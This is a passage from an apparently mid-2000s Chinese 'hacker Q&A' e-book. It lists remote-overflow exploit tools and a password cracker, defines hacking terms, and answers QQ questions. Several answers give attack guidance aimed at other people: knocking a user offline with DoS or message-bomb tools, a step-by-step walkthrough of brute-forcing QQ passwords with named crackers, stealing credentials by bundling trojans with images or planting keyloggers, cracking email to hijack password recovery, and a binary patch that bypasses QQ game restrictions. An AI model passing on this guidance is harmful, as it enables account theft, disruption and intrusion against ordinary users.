- **remexec**：通过 RPC-Task Scheduler 或 DCOM-Windows Management Instrumentation 远程执行程序。
- **sasserftp**：Sasser 振荡波病毒利用程序。
- **Cygwin 环境下的 Gcc**：Windows（含 Win98/Win2000/WinXP）下的 Unix 工具集合，支持大量 GNU 软件。
- **putty**：终端连接程序，支持 SSH。
- **trtool.exe**：协议转发工具。
- **tscrack-beta3**：针对 Win2000 终端服务的密码破解程序，可通过字典破解。
- **ASPCODE**：IIS ASP 的远程溢出工具。
- **IIS5HACK**：Win2K printer 的远程溢出程序。
- **IISIDQ**：Win2K .ida、.idq 的远程溢出程序。
- **LocatorHack**：Win2K RPC Locator 的远程溢出程序。
- **MEDIA**：Win2K Media 的远程溢出程序。
- **ms03049**：Windows Workstation 的远程溢出程序。
- **MSGR**：Windows Messenger 的远程溢出程序。
- **theiisslame3**：Windows SSL 的远程溢出程序。
- **webdavx3**：Windows IIS WebDAV 的远程溢出程序。

## 超值教程

- **3389 入侵秘籍**
- **网络黑客加密与破解**：介绍软件破解相关知识与实例，以及网络攻击、防范知识与实例。
- **dos 入侵基础操作**：dos 入侵的一些简单操作命令，菜鸟必备。
- **小西的安全教程**
- **黑客技巧大全**
- **计算机资料大全**：涉及电脑技巧、黑客手册、手机类、实用软件技巧、网络技巧、笑话等。
- **计算机端口介绍**
- **Java 语言入门**
- **XML 编程从入门到精通**：通过典型实例介绍 XML 编程。
- **ASP.NET XML 深入编程技术**
- **MySQL 中文参考手册**
- **Serv-U FTP 建立和维护手册**
- **Linux 网站建设和维护全攻略**

## 自娱自乐

- **搞笑一期**
- **交互游戏**：射雕、吉祥物拼图、大家来打耳、冰球等。
- **别样红**：笑话大传、激情的 bird、离流蛋、历史上最经典的照片集锦等。
- **史上最搞笑的 Flash 集**

## 第一章

## 黑客常用术语及基础知识

## 第二章 黑客常用术语及基础知识

### 黑客（Hacker）是什么？骇客（Cracker）又是什么？

黑客（Hacker），源于英语动词 hack，意为“劈、砍”，引申为“干了一件非常漂亮的工作”。在早期麻省理工学院的校园俚语中，“黑客”则有“恶作剧”之意，尤指手法巧妙、技术高明的恶作剧。在日本《新黑客词典》中，对黑客的定义是：“喜欢探索软件程序奥秘，并从中增长其个人才干的人。他们不像绝大多数电脑使用者那样，只规规矩矩地了解别人指定了解的狭小部分知识。”他们通常具有硬件和软件的高级知识，并有能力通过创新的方法剖析系统。“黑客”能使更多的网络趋于完善和安全，他们以保护网络为目的，而以不正当侵入为手段找出网络漏洞。

另一种入侵者是那些利用网络漏洞破坏网络的人。他们往往做一些重复的工作（如用暴力方法破解口令等），他们也具备广泛的电脑知识，但与黑客不同的是他们以破坏为目的。这些群体称为“骇客”（Cracker）。当然还有一种人介于黑客与骇客之间。

一般认为，黑客起源于50年代麻省理工学院的实验室中，他们精力充沛，热衷于解决难题。60、70年代，“黑客”一词极富褒义，用于指代那些独立思考、奉公守法的计算机迷。他们智力超群，对电脑全身心投入，从事黑客活动意味着对计算机的最大潜力进行智力上的自由探索，为电脑技术的发展做出了巨大贡献。

正是这些黑客，倡导了一场个人计算机革命，倡导了现行的计算机开放式体系结构，打破了以往计算机技术只掌握在少数人手里的局面，开了个人计算机的先河，提出了“计算机为人民所用”的观点。他们是电脑发展史上的英雄。

### 如何才能成为一个黑客（Hacker）？

黑客（Hacker）们探索着电脑及网络领域上的一切奥秘，并用自己的智慧创造新东西。他们通常都拥有非常丰富的电脑知识，包括软件、硬件、电脑程序语言、各种操作系统、各种脚本语言等。并不是说你从网上下载了几个黑客工具，使用它们入侵了几个网站，你就成了黑客（Hacker）了。

一个真正的黑客（Hacker）至少需要掌握以下基本知识：

- 1. 计算机硬件及软件的相关知识。
- 2. 计算机语言，包括汇编语言、C、C++、Perl、VB、Delphi等；除C或C++外，你至少还需要掌握另外一门程序语言。
- 3. 计算机网络知识，包括TCP/IP及其他协议，网络服务组件（WWW、SMTP、FTP）的相关架构及维护，掌握ASP、PHP、JSP等常用脚本语言。
- 4. 精通操作系统的操作，包括Win-

……的基本技巧，例如破解口令（password cracking）、开天窗（trapdoor）、走后门（backdoor）、安放特洛伊木马（Trojan horse）等，都是在这一时期发明的。从事黑客活动的经历，成为后来许多计算机业巨子简历上不可或缺的一部分。例如，苹果公司创始人之一乔布斯就是一个典型的例子。

在60年代，计算机的使用还远未普及，还没有多少存储重要信息的数据库，也谈不上黑客对数据的非法拷贝等问题。到了80、90年代，计算机越来越重要，大型数据库也越来越多，同时信息越来越集中在少数人手里。这样一场新时期的“圈地运动”引起了黑客们的极大反感。黑客认为，信息应共享而不应被少数人垄断，于是将注意力转移到涉及各种机密的信息数据库上。而这时，电脑化空间已私有化，成为个人拥有的财产，社会不能再对黑客行为放任不管，而必须采取行动，利用法律等手段来进行控制。黑客活动受到了空前的打击。

但是，政府和公司的管理者现在越来越多地要求黑客传授给他们有关电脑安全的知识。许多公司和政府机构已经邀请黑客为他们检验系统的安全性；甚至还请他们设计新的保安规程。无疑，黑客正在对电脑防护技术的发展作出贡献。

从以上定义可以看出来，黑客远不是国内媒体所广泛认为的那些所谓偷QQ号、偷电子邮件、偷传奇账号，或是故意入侵并破坏网站甚至个人电脑系统的入侵者。他们更应该被称为骇客（Cracker），而不是黑客（Hacker）。

- 5. 有时，还需要掌握文件的加解密技术及保护和破解技术。
- 6. 有力的网络支持，目前在 Internet 上广泛应用的 WWW、SMTP、FTP 等服务，UNIX 都可以很好地支持。
- 7. 系统安全性（用户身份验证、文件存取控制、子系统授权等）。
- 8. 运行效率高，稳定性超过 Windows 系统。

可以看出，要想成为一个真正的黑客（Hacker），并不是一件简单的事，你需要付出许多，才能实现你的梦想！

虽然30年过去了，UNIX系统仍然被广泛应用在Internet上。

### 什么是 UNIX 系统？

UNIX 是一个交互式的分时操作系统，同时也是一个多任务、多用户的操作系统。原参与 MULTICS 项目的美国 Bell 实验室的 Ken Thompson 及 Dennis Ritchie 于1974年在《ACM通信》上发表了论文“The UNIX Time-Sharing System”，宣告了 UNIX 操作系统的正式诞生。

UNIX 操作系统主要有以下几方面的特点：

- 1. 采用高级语言（C语言）编写，易读、易懂、易修改、易移植到别的计算机上。
- 2. UNIX 有一个简单的用户界面——Shell，目前广泛使用的 UNIX 系统大多还拥有类似 Windows 的图形操作界面。
- 3. UNIX 使用了在维护上容易、实现上高效的树形结构文件系统。
- 4. 文件、设备统一处理。
- 5. 丰富的实用程序，如 C、C++、Perl、Python、FORTRAN、Ada、Lisp 等许多高级语言及编译器，PHP、JSP、CGI、HTM、HTML 等常用脚本语言，Oracle、MySQL 等常用数据库系统等。

### 什么是 Linux 系统？

简单地说，Linux 是一套免费使用和自由传播的类 UNIX 操作系统，它主要用于基于 Intel x86 系列 CPU 的计算机上。这个系统是由全世界各地成千上万的程序员设计和实现的。其目的是建立不受任何商品化软件版权制约的、全世界都能自由使用的 UNIX 兼容产品。

Linux 的出现，最早开始于一位名叫 Linus Torvalds 的计算机业余爱好者，当时他是芬兰赫尔辛基大学的学生。他的目的是想设计一个代替 Minix（是由一位名叫 Andrew Tanenbaum 的计算机教授编写的一个操作系统示教程序）的操作系统。这个操作系统可用于386、486或奔腾处理器的个人计算机上，并且具有 UNIX 操作系统的全部功能，因而开始了 Linux 雏形的设计。

Linux 以它的高效性和灵活性著称。它能够在 PC 计算机上实现全部的 UNIX 特性，具有多任务、多用户的能力。在 GNU 公共许可权限下免费获得，是一个符合 POSIX 标准的操作系统。Linux 操作系统软件包不仅包括完整的 Linux 操作系统，而且还包括了文本编辑器、高级语言编译器等应用软件。它还包括带有多个窗口管理器的 X-Windows 图形用户界面，如同我们使用 Windows 2000/XP/2003 一样，允许我们使用窗口、图标和菜单对系统进行操作。

Linux 之所以受到广大计算机爱好者的喜爱，主要原因有两个：一是它属于自由软件，用户不用支付任何费用就可以获得它和它的源代码，并且可以根据自己的需要对它进行必要的修改，无偿使用、无约束地继续传播；另一个原因是它具有 UNIX 的全部功能，任何使用 UNIX 操作系统或想要学习 UNIX 操作系统的人都可以从 Linux 中获益。

### 为什么网上有许多高手都建议使用 Windows NT/2000/XP/2003 系统，而不是使用 Windows 9x/ME 系统？

这是因为 Windows 9x/ME 系统的网络功能非常差，像常用的 ipc$ 远程连接命令在 Windows 9x/ME 系统上是没有的，而且 Windows 9x/ME 的系统内核也远没有 Windows NT/2000/XP 的 NT 系统内核稳定，很容易出现蓝屏死机现象。另外，有许多网络扫描程序以及黑客攻击程序必须在 Windows NT/2000/XP/2003 系统上才能正常使用，像流光5、X-scan3.*、Windows Workstation（MS04-049）漏洞的攻击程序等。

### 什么是肉鸡？

在黑客技术中，肉鸡通常指的是那些已经被入侵者成功控制的网络主机。这些已经被控制的主机，对于入侵者来说，就像是使用自己的电脑一样。

### 什么是木马（Trojan）？

全称为特洛伊木马（Trojan Horse），是根据希腊神话传说中的一次战争而得名。麦涅劳斯派兵讨伐特洛伊王国，他们假装被打败，然后留下一个很大的木马，而木马里却隐藏着最精锐的勇士。最后等晚上时间一到，隐藏在木马里的勇士就冲出来把敌人打败了。后来就有了特洛伊木马一说。

而在黑客中的特洛伊木马通常指的是一些特别的程序，这类程序表面上伪装得像一些很正常的程序，但实际上却隐藏着许多特殊功能，通常都是一些方便黑客远程控制的功能，以使受害者在不知不觉间被黑客所控制。

### 什么是后门（BackDoor）？

这是一种形象的比喻。入侵者在利用某些方法成功控制了目标主机后，可以在对方系统中植入某种特定程序，或修改某些设置。这些改动表面上对方很难察觉，但是入侵者却可以使用相应程序或方法轻易与这台电脑建立连接，重新控制该台电脑。就好像是入侵者偷偷配了一把主人房间的钥匙，可以随时进出而不被主人发觉一样。通常绝大多数特洛伊木马（Trojan Horse）程序都可以被入侵者用于制作后门（BackDoor）。

### 什么是跳板？

举例来讲，黑客要想攻击网络上的主机A，但他并不使用自己的电脑直接进行攻击，而是先登录到网络上的另一台主机B上（B是一台已经被他完全控制的电脑），然后在主机B上再运行扫描程序检测自己真正的攻击目标A，并使用其已经上传在B上的攻击程序开始攻击A。则B对于入侵者来说，就是一个跳板。

### 什么是代理服务器？

代理服务器相当于一种信息转发或中转的主机。比如我们向网络上的主机A发出一个请求，但这个请求并不是像原来那样直接发到主机A上，而是先发到代理服务器B上，由B来完成，然后B将接收到的返回信息再转发到我们自己的电脑上。

### 什么是端口（Port）？

端口（Port）相当于一种数据传输通道。用于接收某些数据，然后传送给相应的服务；电脑将这些数据处理后，再将相应回复通过开启的端口（Port）传给对方。

### 什么是扫描（Scan）？

扫描通常指的是向目标主机提交一些特定请求，然后根据接收到的回复信息来判断对方是否存在某个安全问题，或提供了什么服务的一种最常用、最基本的信息刺探方法。目前国内最常用的扫描（Scan）工具有流光、X-scan、X-way、SSS 等。

### 什么是 SHELL？

简单地说，Shell 就是一个命令行解释器，它的作用就是遵循一定语法将我们输入的命令加以解释并传给系统。它为用户提供了一个向操作系统发送请求以便运行程序的接口系统级程序，用户可以用 Shell 来启动、挂起、停止，甚至编写一些程序。

### 什么是权限？

计算机用户对于文件及目录的建立、修改、删除，以及对于某些服务的访问、程序的执行，是以权限形式来严格区分的。用户A不可能修改用户B的文件，而用户B也不可能删除用户A的文件；普通用户也不可能访问或执行只有系统管理员才能访问、执行的文件和命令。这样的权限设置很好地解决了不同用户对于同一个系统的使用问题，作为服务器这是必须的，也使安全性提高了许多。

### 什么是溢出（Exploit）？

在计算机内部，输入的数据通常被存放在一个临时空间内，这个临时存放空间就称为缓冲区。缓冲区长度事先已经被程序或者操作系统定义好，也就是说大小是固定的。向缓冲区填充数据时，如果数据长度很长，超过了缓冲区本身容量，那么数据就会溢出存储空间，覆盖在合法数据上，这就是缓冲区和溢出的道理。溢出（Exploit）又分为远程溢出（Remote Exploit）以及本地溢出（Local Exploit）。

### 什么是远程溢出（Remote Exploit）？什么是本地溢出（Local Exploit）？

远程溢出（Remote Exploit）通常指的是我们利用要攻击的远程电脑提供的某个服务，从本地电脑上向该服务提交一些特定数据，来触发一个缓冲区溢出，以达到我们特定目标。通常是在对方某个端口上绑定一个 shell，或者反向连接到攻击者电脑上，让攻击者在本地得到远程主机的一个 shell；也可以直接在对方系统中添加一个后门账号，或直接下载一个木马程序执行等。这种攻击就是远程溢出（Remote Exploit）攻击。

而本地溢出（Local Exploit）则指的是我们在可以物理接触电脑、但权限受到限制的情况下，向系统某个服务提交特定数据，触发一个缓冲区溢出，并得到系统最高权限。有时当我们远程溢出攻击成功，但得到的 shell 只有普通权限时，也可以再使用本地溢出（Local Exploit）攻击提升权限。

### 什么是嗅探（Sniffer）？

计算机网络是共享通信通道的，支持每对通信计算机独占通道的交换机/集线器仍然过于昂贵。共享意味着计算机能够接收到发送给其他计算机的信息，捕获在网络中传输的数据信息就称为嗅探（Sniffer）。

### 什么是弱口令？

弱口令指的是密码与用户名相同、密码为空这样的用户名与密码组合，也包括那些强度不够、容易被猜解的组合。例如用户名为 Administrator，密码也为 Administrator；用户名为 Administrator，密码为空；用户名为 Administrator，密码为1234、12345、123456、abcd等极易猜测出来的密码，这些都属于弱口令。

### 什么是3389终端服务？

Terminal Service（终端服务）是 Windows NT 系统中最先开始使用的一种终端服务。在 Win2000 的 Professional 版本中并不集成终端服务，只可以安装终端服务的客户端连接程序；在 Win2000 的 Server 版及高级服务器版本中都集成了这个终端服务。我们可以使用终端服务的客户端连接程序来连接开放终端服务的主机，就可以像操作本机一样操作远程主机了，非常方便。在 Windows XP 系统中叫做“远程桌面”。

### 什么是 IP 地址？

为了使 Internet 上的众多电脑主机在通信时能够相互识别，Internet 上的每一台主机都分配有一个唯一的32位地址，该地址称为 IP 地址，也称作网际地址。IP 地址由4个数值部分组成，每个数值部分可取值0~255，各数值部分之间用一个点号“.”分开（如：202.103.8.46）。

事实上，每个 IP 地址都是由网络号和主机号两部分组成的。网络号表明主机所连接的网络，主机号标识了该网络上特定的那台主机。如上例中，202.103 是网络号，8.46 是主机号。

### 什么是域名（Domain Name）？

IP 地址是以数字来代表的主机地址，比较难记。为了使用和记忆方便，也为了便于网络地址的分层管理和分配，Internet 在1984年采用了域名管理系统（Domain Name System）。入网的每台主机都具有类似于下列结构的域名：“主机号.机构名.网络名.最高层域名”。

域名用一组简短的英文表达，比用数字表达的 IP 地址容易记忆。例如：北京电报局的一台与 Internet 联网的电脑主机，IP 地址是 202.96.0.98，域名为 public.bta.net.cn。加入 Internet 的各级网络依照域名管理系统的命名规则对本网内的主机命名和分配网内主机号，并负责完成通信时域名到 IP 地址的转换。对使用者来说，我们一般不需要使用 IP 地址，而直接使用域名，Internet 上的服务系统会自动转为 IP 类型地址。

从技术上来讲，域名只是 Internet 上用于解决地址对应问题的一种方法。Internet 上的主机可以没有域名，但是不能没有 IP 地址。一个 IP 地址可以对应多个域名，而一个域名只能对应一个唯一的 IP 地址。

### 什么是 HTML？

HTML（HyperText Markup Language）即超文本标记语言，是 WWW 的描述语言。设计 HTML 语言的目的是为了能把存放在一台电脑中的文本或图形与另一台电脑中的文本或图形方便地联系在一起，形成有机的整体，而不用考虑具体信息是在当前电脑上还是在网络的其他电脑上。

我们只需使用鼠标在某一文档中点取一个图标，Internet 就会马上转到与此图标相关的内容上去，而这些信息可能存放在网络的另一台电脑中。HTML 文本是由 HTML 命令组成的描述性文本，HTML 命令可以说明文字、图形、动画、声音、表格、链接等。HTML 的结构包括头部（Head）、主体（Body）两大部分，其中头部描述浏览器所需信息，而主体则包含所要说明的具体内容。

WWW 是一种建立在 Internet 上的网络服务。其最初开发的目的是为了在科学家之间共享成果，科学家们可以将科研成果以图文形式在网上进行共享，它最基本的概念就是 Hypertext（超文本）。现在 WWW 的应用已远远超出了原设想，成为 Internet 上最受欢迎的应用之一，它的出现极大地推动了 Internet 的推广。

## 网络名词

- 什么是 HomePage（主页）？

HomePage 是一种用超文本标记语言（描述性语言）组织信息，并经过相应解释器或浏览器翻译后形成的、包括文字、图像、声音、动画等多种信息组织方式。

- 什么是 WWW（World Wide Web）？

WWW 是一种建立在 Internet 上的全球性、交互性的动态、多平台、分布式图形信息系统，它只是建立在 Internet 上的一种网络服务。

- 什么是 TCP/IP？

TCP/IP（传输控制协议/网间协议）是一种网络通信协议，它规范了网络上的所有通信设备，尤其是一个主机与另一个主机之间的数据往来格式以及传送方式。TCP/IP 是 Internet 的基础协议，也是一种电脑数据打包和寻址的标准方法。在数据传送中，可以形象地理解为有两个信封，TCP 和 IP 就像信封。要传递的信息被划分成若干段，每一段塞入一个 TCP 信封，并在该信封面上记录有分段号的信息，再将 TCP 信封塞入 IP 大信封发送上网。在接收端，一个 TCP 软件包收集信封，抽出数据，按发送前顺序还原并加以校验，若发现差错，TCP 将会要求重发。因此，TCP/IP 在 Internet 中几乎可以无差错地传送数据。对普通用户来说，并不需要了解网络协议的整个结构，仅需了解 IP 地址格式，即可与世界各地进行网络通信。

- 什么是 FTP？

FTP，File Transfer Protocol，文件传输协议。这是为了实现在 Internet 上以及局域网内进行文件传输而制定的……

## 黑客问答——点通

FTP 是一种标准的协议，提供这种服务的主机就是 FTP 主机。FTP 服务是目前 Internet 上最主要的服务之一。

- **什么是 HTTP？**  
  Hypertext Transfer Protocol（HTTP），超文本传输协议。这是用来在 Web 服务器和浏览 Web 的客户端之间传输 Web 页面的一种协议。只要是网站，都会提供这种 HTTP 服务。

- **什么是 SMTP？**  
  Simple Mail Transfer Protocol，简单邮件传输协议。它是一组用于源地址到目的地址传送邮件的规则，由它来控制信件的中转方式。SMTP 协议属于 TCP/IP 协议族，它帮助每台计算机在发送或中转信件时找到下一个目的地。通过 SMTP 协议所指定的服务器，我们就可以把 E-mail 寄到收信人的服务器上了。SMTP 服务器则是遵循 SMTP 协议的发送邮件服务器，用来发送或中转你发出的电子邮件。

- **什么是 APACHE？**  
  APACHE 是一款在 Internet 上广泛使用的、全免费的 Web 架构组件，性能出色、易用性也比较好。APACHE 分为 UNIX/Linux 版本以及 Windows 版本。目前在 Internet 上有超过 50% 的 Web 服务器采用的是 APACHE 来架构他们的网站，数量远超过使用 IIS 的。

- **什么是 IIS？**  
  IIS（Internet Information Server，因特网信息服务）是微软推出的一款 Web 架构组件，简单易用且安装维护方便，广泛地被应用于 Windows NT/2000/2003 中。目前，Internet 上的许多中小型及个人网站都是采用 IIS 来架构的。

- **什么是网关（Gateway）？**  
  通常网关（Gateway）是被置于内部局域网与 Internet 出口处的一台电脑。因为局域网内的数据格式和 Internet 上的数据格式不一样，而网关就是起到一个翻译的作用，让这两种完全不同的数据格式可以正常工作。

- **什么是路由器（Router）？**  
  路由器（Router）应该是在网络上使用率最高的设备之一了，它的主要作用就是路由选择，将 IP 数据包正确地送到目的地，因此也叫 IP 路由器。打个比方来说吧，它的作用就好像我们的邮局：当你把信（数据包）写上地址（封装上 IP 包头，里面含有目的地址）并投递后，邮局（路由器）就会根据目的地址（目的地的 IP）来选择如何将信（数据包）投递并送到正确的位置（目的地址）。

### 什么是蜜罐（Honeypots）？

蜜罐好比是情报收集系统。蜜罐好像是故意让人攻击的目标，引诱黑客前来攻击。所以攻击者入侵后，你就可以知道他是如何得逞的，随时了解针对你的服务器发动的最新攻击和漏洞。还可以通过窃听黑客之间的联系，收集黑客所用的种种工具，并且掌握他们的社交网络。

### 什么是脚本注入攻击（SQL Injection）？

所谓脚本注入攻击（SQL Injection），就是攻击者把 SQL 命令插入到 Web 表单的输入域或页面请求的查询字符串，欺骗服务器执行恶意的 SQL 命令。在某些表单中，用户输入的内容直接用来构造（或者影响）动态的 SQL 命令，或作为存储过程的输入参数，这类表单特别容易受到 SQL 注入式攻击。

### 什么是拒绝服务（DoS）攻击？

DoS 是 Denial of Service 的简称，即拒绝服务。造成 DoS 的攻击行为被称为 DoS 攻击，其目的是使计算机或网络无法提供正常的服务。最常见的 DoS 攻击有计算机网络带宽攻击和连通性攻击。带宽攻击指以极大的通信量冲击网络，使得所有可用网络资源都被消耗殆尽，最后导致合法的用户请求无法通过。连通性攻击指用大量的连接请求冲击计算机，使得所有可用的操作系统资源都被消耗殆尽，最终计算机无法再处理合法用户的请求。

### 什么是分布式拒绝服务（DDoS）攻击？

上边的拒绝服务（DoS）攻击通常是使用一台被控制的电脑发动的攻击，而分布式拒绝服务（DDoS）攻击则是同时控制若干台分布在不同地域的电脑，对特定目标发动的拒绝服务攻击。这种攻击的危害性更大。

## 第二章 常见安全问题

## 常见安全问题

### 问：为什么别人的 QQ 是可以显示出好友 IP 地址的，而我的就不能呢？

答：是这样的，腾讯官方推出的 QQ 版本是不能显示好友 IP 地址的，如果你使用的是这些版本的话，当然也就不可能显示出好友的 IP 地址了。而网上也有许多不同的 QQ 版本，比如 QQ 木子版本、QQ 珊瑚虫版本等，这些都是可以显示出好友 IP 地址的。

### 问：如何更好地让 QQ 显示出对方的 IP 地址？

答：首先是使用一个可以显示好友 IP 地址的 QQ 版本，虽然这不是必须的，不过对于显示出好友的 IP 地址来说却非常方便。其次是可以使用一些辅助工具，比如珊瑚虫外挂或者 QQ 狙击手等，这些都可以让你轻松地得到好友的 IP 地址。  
另外还有一个稍微复杂的方法，就是使用网络防火墙，比如天网等。QQ 使用的是 UDP 方式，我们可以在天网的“IP 规则”里选择“UDP 数据包监视”，然后发信息给对方，再去查看防火墙的日志，就可以查看到对方的 IP 地址了。最后还有一点，就是 QQ 的 IP 数据库尽可能使用最新的，这样查到的 IP 地址才更准确、更详细。

### 问：如何防止 QQ 显示出自己的 IP 地址？

答：第一是使用代理，打开 QQ，选择“菜单—系统设置—代理设置”，填入代理相关信息，确定后重新启动 QQ，这样就达到保护自己真实 IP 地址的目的了。不过使用代理服务器也有不好的一点，就是视所使用的代理服务器好坏而不同，可能在网速及稳定性方面有所影响。  
另外还有一个使用隐身的方法，就是将你的 QQ 设为隐身，这样就算使用 QQ 外挂也看不到你的 IP。  
最后还有一种方法，打开 QQ，选择“菜单—个人设置—网络安全”，选择“通过服务器模式”。设置好后重新启动 QQ，这样你无论是在线还是隐身，自己的 IP 地址都不会被别人知道。

### 问：如何让对方的 QQ 掉线？

答：我们知道，对于直接拨号或是直接宽带上网的用户，他们的 QQ 使用的默认认证端口号为 4000；而对于局域网上网的用户，其 QQ 的端口号通常都是大于 10000 或是 102* 的。具体使用的端口号我们可以从显示好友 IP 地址的 QQ 中看到。这样，最简单的一个做法就是利用网上的拒绝服务（DoS）程序或专用的 QQ 信息炸弹，比如飘叶千夫指等来攻击对方的这些端口，就可以让对方的 QQ 停止响应了（图1）。

图1

### 如何防止自己的 QQ 被盗？

- 1. 对于自己所使用的操作系统，务必打上最新的补丁，因为目前有许多 QQ 被盗，都是因为黑客利用操作系统上未被修复的安全漏洞而侵入系统，然后通过植入木马程序窃取 QQ 密码。  
- 2. 对于 QQ 好友发过来的图片或其他 exe 可执行文件，一定要小心。因为目前黑客盗取 QQ 的一个常用方法，就是将设置好的木马程序服务端与一个 jpg 图片文件捆绑在一起，甚至是直接发过来一个“***图片.exe”的文件。倘若我们不小心执行了，就会感染木马，而 QQ 密码也就会被轻易窃取。  
- 3. 当我们在网吧或是在局域网内登录过 QQ 后，在 QQ 的安装目录下会生成一个以我们的 QQ 号命名的文件夹，应及时删除。  
- 4. 将你的 QQ 密码设置得复杂一些是很有必要的，例如密码最少要有 8 位，不要使用诸如：1234、12345、123456、abcd，以及自己生日号、家庭电话号码、自己手机号码等容易被猜解的数字作为密码。另外密码也尽可能使用数字+字母+其他特殊符号，这样的密码不论是使用字典猜解或暴力破解都很困难。  
- 5. 最后一招，千万别忘记设置 QQ 密码找回功能。有了这个设置，就算你的 QQ 被人窃取了，也可以利用这个功能很快找回被改的密码。

## 黑客是如何使用 QQ 密码破解软件破解 QQ 密码的？

破解 QQ 密码的方法主要有几个：

- 1. **本地密码破解**。这种方法通常被广泛应用在网吧或公司的局域网内。而相应的 QQ 密码本地破解工具在网上比比皆是，不过总的来说，大致也都是使用字典猜解及暴力破解。“多功能密码破解软件”就是其中常用的一款工具。多功能密码破解软件同时还支持对 QQ 密码的在线破解，另外还支持 Access、Word/Excel、星号密码查看、SQL Server、ZIP/RAR 等密码的破解。它的使用也很简单：启动后选择好密码破解位数（密码通常都是 6-8 位，当然还有更多的），选择破解字符，默认是本地破解方式。打开 QQ 的登录窗口，输入选定的 QQ 号码，也就是要破解的 QQ 号码，用鼠标在下方的密码输入框中点一下，拖动放大镜图标到 QQ 的密码输入框（图标会变成一个小猫咪），此时不会有任何提示，点击进度栏右边的“开始”按钮，程序就会自动进行密码破解了。在进度栏中会看到当前进度，以及 QQ 登录窗口不停在电脑屏幕上闪动（图2、图3）。

图2  
图3  
图4

### 2．在线密码破解

在线破解的工具也有许多，比如目前网上常见的 QQExplorer、天空葵 QQ 密码探索者、画蝶 QQ 密码探测器等。这类工具可以对 Internet 上的 QQ 用户进行密码的字典猜解或暴力破解。  
不过有一点要注意：QQExplorer 以及画蝶 QQ 密码探测器在进行在线破解的时候，需要使用代理服务器，而且代理服务器使用得越多，密码破解速度也就会越快（图4）；而天空葵 QQ 密码探索者并不需要使用代理服务器，因此使用更为简单（图5），但破解速度可能没有 QQExplorer 以及画蝶 QQ 密码探测器快。

图5

- 3. 在网上还有一些工具，比如 OICQ 密码瞬间破解器等，能破解出本地 QQ 号码的最后一个使用密码。只要该号码曾经选择过“下次登录不显示登录框”参数，即选择了“保存密码”，软件即可在瞬间得到这个 QQ 密码。  
- 4. 使用木马程序，包括传统的针对操作系统的木马，以及专门的 QQ 木马。对于远程使用来讲，通常黑客是将这些木马的服务端与一个普通的 jpg 图片或别的不起眼程序绑定在一起发给远程 QQ 用户，当然也有直接将木马服务端程序改成一个不被怀疑的名字，再直接发给远程 QQ 用户的。这些木马程序一旦被执行，受害者的 QQ 号码及密码就会被发送到指定邮箱中。“好友号好好盗 2004”就是目前网上比较常用的一款专门用来盗取好友 QQ 号的工具（图6）。  
- 5. 使用键盘记录程序（事实上有许多 QQ 木马也都具有键盘记录功能）。这类程序被执行后，会将电脑上所有击键情况记录下来。如果对方此时登录了 QQ 的话，密码当然也就会被记录下来。然后对方只需要通过共享或别的方法到该台电脑上把记录击键情况的文件打开，那么你所有的秘密，包括你可爱的 QQ 密码，也就被对方知道了。  
- 6. 当我们忘记自己 QQ 密码时，会使用腾讯的找回密码功能，正确密码会被发送到自己注册该号码时所填写的邮箱里。所以破解邮箱也就成了一个盗取 QQ 密码的好办法。通常个人资料里所填写的邮箱也就是对方的验证邮箱，黑客可以使用专用的邮箱破解工具，比如 Tetrp FTP/POP Passwd Trier，再结合 QQ 的密码找回功能，就可以获取 QQ 的密码了。

### 如何防止在局域网内，自己的 QQ 密码被键盘记录程序记录下来？

目前，大多数键盘记录程序都被杀毒软件列为了病毒查杀对象，因此实时升级自己的杀毒软件，使其成为最新版本是极为必要的。  
另外还有一个小技巧：这些键盘记录程序的记录都是按先后顺序的，因此我们在输入 QQ 密码时，可以使用插入的方法。例如你的 QQ 密码为“135790”，我们可以先输入“790”，然后将光标移到“7”的前边，再输入“135”，这样被记录下来的就是“790135”，而不是真正的密码了。

### 如何防止“飘叶千夫指”的攻击？

“飘叶千夫指”是一款比较流行的信息炸弹。其实对付它的攻击也很简单：用鼠标点 QQ 主菜单→选择个人资料→在“用户昵称”前加上 275297→在“联系方法”里的“电子邮件”栏中把 E-mail 地址改为飘叶的 QQ 号码 275297 就 OK 啦！只要有人用飘叶千夫指对你发送信息炸弹，他的电脑就会重新启动哦！

### 如何让自己的 QQ 隐身登录？

我们登录 QQ 时，如果直接从注册向导登录的话，QQ 是上线登录的，可是有时候却不希望现身。解决办法是：用一个没用的 QQ 先从注册向导登录，选择状态为隐身，然后在系统参数中选中“以隐身方式登录”，点确定。然后直接在这个 QQ 上运行注册向导，登录你要登录的 QQ，你会发现现在 QQ 是隐身的了。

### 在隐身状态下，如何让我的一些好友得知我在线？

我们在隐身状态下登录自己的 QQ，然后在某个好友的头像点击鼠标右键，在弹出的快捷菜单中选择“对其可见”，这样就将该用户设置成你的 QQ 密友了。他的位置会排在好友列表最前边，而且虽然你现在是隐身状态，但是对方也会看到你在线了。

### 如何在自己的 QQ 中加自己为好友？

首先把自己的 QQ 设置成“允许任何人把我列为好友”，然后切换到“黑名单”组，在“黑名单”上点击右键并选择“添加坏人名单”，输入自己的 QQ 号码，并把这个“自己”拖到“我的好友”组中去。这时会弹出“不能添加自己”的提示，不过不理会它。关闭 QQ，然后用注册向导登录（注意这里一定要使用注册向导登录！），就可以看见自己的头像已经在列表中了，而且还可以和“自己”聊天呢！

### 在 QQ 游戏中，同一个 QQ 号不被允许登录不同的 QQ 游戏，该如何解决？

我们可以使用十六进制文件编辑软件，如 UltraEdit、WinHex 等，打开 QQ 安装目录下的 QQGame.exe 文件，单击“搜索”—“替换”命令，在“查找内容”中输入 `E87707000085C07459`，将其替换成 `E87707000085C09090`。

### 我们在发送 QQ 信息的时候，有时会久久发送不出去，总是提示通过服务器中转，如何解决呢？

我们可以按 Alt+Shift+S，或者 Ctrl+Alt+回车；另外也可以按住 Shift 用鼠标点“发送消息”，这样都可以提高发送速度。

### 我的 QQ 中有好几百个好友，每次上线都是头像狂闪，如果此时我想找特定的某位好友的话，有没有好的办法呢？

- **是不是想找 PLMM 了？好，跟我做吧！**  
  在键盘上按下要查找的好友昵称首字母（英文输入法），例如“零下273度”取“L”，“极口人渣”取拼音首字母“J”，即可定位到对应好友；也可用快捷键 `Ctrl + 昵称第一个字母`。

- **听说可以不需要验证码就能绑定手机，该如何做呢？**  
  使用 QQ2004 版本登录 QQ，登录后不要关闭“无线 QQ 使用向导”消息，把该 QQ 号添加自己为好友，再在消息里选第 3 项“开通短信超人”，填写手机号，不填验证码即可绑定。  
